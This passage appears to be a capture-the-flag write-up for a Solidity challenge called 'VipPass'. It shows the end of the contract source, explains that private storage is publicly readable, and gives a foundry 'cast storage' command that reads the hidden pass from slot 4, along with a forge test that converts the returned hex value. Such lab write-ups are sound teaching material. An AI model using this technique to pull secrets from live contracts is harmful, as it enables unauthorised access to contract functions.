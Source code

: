 ```solidity
    }

}

// SafeMath to avoid integer underflow or overflow
library SafeMath {
    function sub(uint256 a, uint256 b) internal pure returns (uint256) {
 assert(b <= a);
 return a - b;
    }

    function add(uint256 a, uint256 b) internal pure returns (uint256) {
 uint256 c = a + b;
 assert(c >= a);
 return c;
    }
}
```

Comment has been added on the function that will be exploited.

## Exploitation

### VipPass

By seeing this contract, the goal was pretty clear. We want to get the vip pass. One thing that should never be forgotten in solidity:

> Nothing is private in smart contracts!

The public variable can be accessed easly with call instruction. In other hand, the private variable can be accessed only with the function rpc function `eth_getStorageAt` (the name may be different depending of the client). The slot storage are explains in depth in [soliditylang](https://docs.soliditylang.org/en/v0.8.7/internals/layout_in_storage.html).

Basically, compare to other types, uint256 is easy to understand. Its position slot is the position of the declared variable (note that the mapping does not count). In our case `uint256 private vipPass;` is at position **4**, the variable `boss` (the owner of the contract) is at position **5**.

To access the variable `vipPass`, we will use cast from the foundry binaries:

```bash
$ # cast storage <contract address> <slot number>
$ cast storage 0xD5c0873f147cECF336fEEF1a28474716C745Df86 4
0x54be6df4fa514940682be41f9a5a04ecc45bb46877adcd1fa4db82c08d1bd080
```

The function `senior()` returns the vipPass as an `uint256` value. The `cast storage` command returns the value as a hexadecimal string. We can either use an [online converter](https://www.rapidtables.com/convert/number/hex-to-decimal.html) or solidity (with foundry dependencies).

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
contract ContractTest is Test {
    function convert() public {
   //address test = address(0x9A5a04eCC45BB46877ADcd1Fa4dB82C08D1bd080);
   //uint256 test2 = uint256(uint160(test));
   uint256 test3 = 0x54be6df4fa514940682be41f9a5a04ecc45bb46877adcd1fa4db82c08d1bd080;
   emit log_named_uint("test2: ", test3);
    }
}
```
